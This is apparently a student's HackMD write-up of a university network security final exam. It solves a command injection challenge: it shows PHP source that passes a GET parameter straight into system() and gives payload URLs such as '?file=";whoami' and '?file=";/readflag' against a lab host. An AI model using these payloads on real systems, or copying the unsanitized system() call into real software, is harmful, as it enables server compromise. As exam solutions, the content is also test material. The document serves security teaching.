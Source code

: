 ```yaml
---
title: '112-1 NTUT網路與系統安全 期末考試'
disqus: hackmd
---
```


112-1 NTUT網路與系統安全 期末考試
===


# Table of Contents

[TOC]

# Final Exam

## Command Injection
![image](https://hackmd.io/_uploads/r1Zbr_jup.png)

http://192.168.240.109:10039/

![image](https://hackmd.io/_uploads/rkL4BOo_p.png)

### Command Injection Solution
Source Code
```php=
 <?php

if (isset($_GET['file'])) {
    $file = $_GET['file'];
    system("tar cvf /tmp/$file $file");
    echo "Your file /$file";
} else {
    highlight_file(__FILE__);
} 
```

> 根據Source Code 給出file query
> http://192.168.240.109:10039/?file

![image](https://hackmd.io/_uploads/Sy5gv_o_p.png)

> http://192.168.240.109:10039/?file=%22;whoami

![image](https://hackmd.io/_uploads/Bkjqv_o_6.png)

> http://192.168.240.109:10039/?file=";/readflag

![image](https://hackmd.io/_uploads/rJPaDujOp.png)
